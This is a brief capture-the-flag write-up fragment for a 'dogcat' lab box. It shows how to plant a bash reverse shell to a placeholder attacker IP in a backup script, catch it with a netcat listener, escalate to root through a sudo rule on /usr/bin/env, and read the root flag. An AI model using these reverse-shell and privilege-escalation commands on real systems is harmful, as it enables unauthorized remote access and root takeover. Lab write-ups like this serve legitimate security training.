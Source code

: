 ## Get reverse shell in Docker 

### In dogcat shell
```bash
cd /opt/backups
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/9595 0>&1'" >> backup.sh
```

### In Kali
``nc -nvlp 9595``

## Recon
```bash
sudo -l
(root) NOPASSWD: /usr/bin/env
```
### Privesc
``sudo /usr/bin/env /bin/bash``

### Flag
``cat /root/flag3.txt``
